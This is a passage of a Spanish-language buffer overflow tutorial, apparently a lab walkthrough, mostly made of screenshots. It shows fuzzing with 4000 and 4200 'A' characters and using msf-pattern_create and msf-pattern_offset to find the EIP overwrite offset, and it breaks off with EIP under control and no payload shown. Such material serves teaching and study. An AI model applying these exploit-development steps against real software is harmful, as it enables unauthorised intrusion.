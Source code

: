 ![](https://lh5.googleusercontent.com/WxoIXcaYgVKOzgDFsWniTY68hVNejCEGb9b5hZJN2ctfwswZA1jRYKtu5zdRVlYI8ExY49nMp7FrTx6jZtaXE5NCFXKeTZIQKUDQ8rsIvQFx5_hDXN6jeSovMn1FYLWOXqB1QAKw)

![](https://lh5.googleusercontent.com/Ho28trsCNgjXNr_IvCC6gex8WocRCCrG7An6x7Ti-GBPOsA3kkTSqtq6AJec9YxSwEua40QrDp6Mg936EMNxWwY3LNpPtnMK6YI4gw4Ir1N3IbPpDSUSAPfgVaPgjjxf_aR9didy)

  

**4000 A’s**

```
$ run $(python -c 'print "A"*4000')
```

![](https://lh6.googleusercontent.com/1AeoFuL6OKvHiTWzIG1vT4pIBx4B-oMrc9Hu1Ek4BBnKM4uAX8T95osefTfh3d77FdWveGQWldEgtfClPCaL8Jq9WiSUC1rn3QD7FxvG2tDd1P1gkZOfXqx4hDf84mx6kRAm0f67)

![](https://lh4.googleusercontent.com/tzHTwTJ4Z1KaK72FoRHY5kE-BtaDpSGpNQXd3Awndf1GaMUkTlg-YyX7E8tCt3hkG6snvRqIoK-aV_l4P_Gf9u5udjk1BrcUPTDzBKojYVWjMtL71L_LDf-KC8uBqACufhN0fgLe)

  

**4200 A’s**

```
$ run $(python -c 'print "A"*4200')
```

![](https://lh4.googleusercontent.com/Jy9FfVHK7lsGFFAC-oQp6_T5iv4J1XK2_HU1iqEIxyTIqrdLSpEnHOel4lBnMBtiEUvbadk5wS99JQG1wg4o44K6rdUo1l85cR-7NNMPZkw2cP_Oj9iPSHYOuCR4QN5jwxiAH2N_)

![](https://lh6.googleusercontent.com/K-CpXwrBcTpZKhheiTwYbkrq-ArDnPN9JLyEnmBOetRj08bDnb5V9JBOOm6l72iN5OPfOcsxgcZrF8LP2JsY6xW6NRBjE385N4tX8qxYciwPsP1-8Ht2uT7GFNaYJ_BCgRX8ZrOH)

Bien, en este punto sabemos que el desbordamiento de buffer está entre el 4000 y 4200, ahora necesitamos calcular el tamaño exacto donde ocurre el desbordamiento, para ello utilizaremos una herramienta `msf-pattern_create` para crear 4200 caracteres aleatorios que no servirán para poder obtener el valor exacto donde ocurre el desbordamiento.

  

```
$ msf-pattern_create -l 4200
```

```
$ run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9.............
```

![](https://lh3.googleusercontent.com/l4GGhA_7ASdhr_7TcMXZiXQzLWTnkZroJNM_AQZMcyxm3hXTn81Xsp-hoCAwWtqZpPAgMTh85GnQJh_l_p-z1EMtu98mQSp0OQOSL4aQPO07d4HhThKBZKMHVBFEL1B8KuR04xLp)

![](https://lh3.googleusercontent.com/vNFha9iLdFPoPXLOtjIgYqsRWD9GiZOTXkQFBDJyrkD59A236qpA5rPPQJG-41e-80cdrdkrGPYBJKt7U5_EoPcNB9jTcdX66H3L5ZTV1jjv68SAnKfjY7HS3AO43QU43lJUILXN)

Obtenemos el siguiente valor `0x34674633` que corresponde a la dirección exacta donde ocurre el desbordamiento, ahora este valor lo pasamos a msf-pattern_offset para que nos proporcione el valor exacto donde se desborda el buffer.

![](https://lh6.googleusercontent.com/LZZIoJmk7F90Jk8mjWKKtvEcfOiSHuaAR4_D0cxMCBtVgs_FCuliVUaTsgRlkGk4sbx0pXIqOGS3J-v-zjYVHH0Asm2RIRvzgWuA-_S5A9M6joB6XaHJlMFaslwJ1fml1EBe0z3G)

Bien, ahora nosotros ya controlamos el registro EIP y podemos asignarle cualquier dirección de memoria que nosotros queramos, por ejemplo:

![](https://lh3.googleusercontent.com/kftf1IhbvqXnJeQtPE7TlqXfWCZ0n0FDBKe9yGXJJDHYSGbKhrzCWjGDeSaDJvW4m4mmHFxW6DeMSGLVogw27_LkwRZnSaFQR6QU9EYIrV_zIu74-5sVVOsT8Y8GKy4jkvlT73Pc)

